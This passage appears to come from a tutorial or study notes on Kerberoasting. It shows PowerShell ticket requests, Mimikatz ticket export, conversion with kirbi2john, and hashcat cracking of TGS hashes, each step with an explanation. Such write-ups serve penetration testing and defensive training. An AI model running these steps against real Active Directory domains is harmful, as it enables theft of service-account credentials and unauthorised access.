 - **Context and Explanation**:
  1. **Add-Type**: Loads the `.NET Framework` library into the PowerShell session, enabling access to advanced Kerberos classes.
     - **`System.IdentityModel`**: Namespace that includes Kerberos-related classes.
  2. **New-Object**:
     - Creates a `KerberosRequestorSecurityToken` object, requesting a TGS ticket for the specified SPN (`MSSQLSvc/DEV-PRE-SQL`).
     - The ticket is loaded into memory for further processing.


#### **Step 3: Extract Tickets from Memory with Mimikatz**
- Dump the loaded TGS tickets using Mimikatz.

```shell
mimikatz # kerberos::list /export
```

- **Explanation**:
  - The `kerberos::list` command lists all Kerberos tickets in memory.
  - The `/export` flag saves each ticket as a `.kirbi` file on disk.
  - These `.kirbi` files are encrypted but can be cracked offline.



#### **Step 4: Prepare Tickets for Cracking**
1. **Convert Base64-Encoded Tickets to .kirbi**:
   - If the ticket was exported in Base64 format, convert it to `.kirbi`.
   ```bash
   echo "<base64 blob>" | tr -d \\n | base64 -d > sqldev.kirbi
   ```
   - **Explanation**: This command removes line breaks and decodes the Base64 string into the `.kirbi` binary format.

2. **Extract Hashes for Cracking**:
   - Use `kirbi2john.py` to extract the Kerberos hash from the `.kirbi` file.
   ```bash
   python2.7 kirbi2john.py sqldev.kirbi > crack_file
   ```

3. **Format the Hash for Hashcat**:
   - Modify the extracted hash for compatibility with `hashcat`:
   ```bash
   sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
   ```

4. **Crack the Hash**:
   - Use `hashcat` to brute-force the hash offline:
   ```bash
   hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
   ```

- **Hashcat Context**:
  - **`-m 13100`**: Hashcat mode for cracking Kerberos 5 TGS-REP hashes using RC4 encryption.
  - **Wordlist**: A file like `rockyou.txt` is used for dictionary-based brute-forcing.



### **3. Automated Methods for Kerberoasting**

